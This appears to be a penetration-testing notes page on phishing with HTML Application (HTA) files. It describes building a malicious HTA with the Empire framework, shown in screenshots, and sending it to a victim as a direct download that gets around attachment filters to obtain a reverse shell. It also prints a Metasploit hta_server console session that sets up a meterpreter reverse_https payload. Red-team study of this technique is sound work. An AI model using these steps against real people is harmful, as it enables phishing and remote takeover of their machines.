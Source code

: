 # ⭕ HTA

{% embed url="http://blog.sevagas.com/?Hacking-around-HTA-files=" %}

An HTML Application (HTA) is a Microsoft Windows program whose source consists of HTML, Dynamic HTML, and one or more scripting languages supported by Internet Explorer, such as VBScript or JScript.

In this example we will be assuming that attachments are not allowed in our Emails, so we will need to send a user a Direct link where we will bypass the email attachment and directly download our Binary(HTA), in the following we will use Empire Framework to create our malicious binary. This attack can also be considered an attachment but here an HTA file is being downloaded and executed.

Empire is a post-exploitation framework that includes a pure Powershell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent. It is the merge of the previous PowerShell Empire and Python EmPyre projects. Empire implements the ability to run Powershell agents without the need of powershell.exe, rapidly deployable post-exploitation modules from keyloggers to evade network detection PowerShell premiered at BSides in 2015.

## <mark style="color:red;">Examples</mark>

We can create Macros, HTA files and OLE Objects for phishing (this example will contain a HTA phishing style and there will be links for reference) we can start Empire from our Linux box and use the following steps \[Remember this is the most basic attack so it will get detected].

`At the time of writing I was using Empire 2.5 there is a newer version 3.0, major updates but procedure is similar`

We execute Empire :&#x20;

![](<../../.gitbook/assets/image (79).png>)

We will need to setup a listener that will listen for our connection once executed on the victim

![](<../../.gitbook/assets/image (178).png>)

We proceed to execute

![](<../../.gitbook/assets/image (52).png>)

We will setup our listener and an OutFile to send to our victim

![](<../../.gitbook/assets/image (4) (1).png>)

Execute again to create our payload, make sure to add the extension to it or Empire will create a file not functional for our attack.

![](<../../.gitbook/assets/image (29).png>)

Once here it's up to creativity on how to send this file I will continue with this just for DEMO purposes.

![](<../../.gitbook/assets/image (108).png>)

after execution, when get a reverse shell.

## <mark style="color:red;">Metasploit HTA Server</mark>

The Metasploit HTA Web Server exploit module hosts an HTA that when opened runs a payload via PowerShell.

To use, simply set the IP for the server, a custom URI, the payload you which to execute, and the IP of the listener:

```markup
root@kali:~# msfconsole -q
msf > use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set SRVHOST 192.168.216.5 
SRVHOST => 192.168.216.5
msf exploit(windows/misc/hta_server) > set URIPATH form
URIPATH => form
msf exploit(windows/misc/hta_server) > set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
msf exploit(windows/misc/hta_server) > set LHOST 192.168.216.5 
LHOST => 192.168.216.5
msf exploit(windows/misc/hta_server) > exploit 
[*] Exploit running as background job 0.

[*] Started HTTPS reverse handler on https://192.168.216...Copy
```

## <mark style="color:red;">Other Tools</mark>

{% embed url="https://www.hackingarticles.in/windows-exploitation-mshta" %}
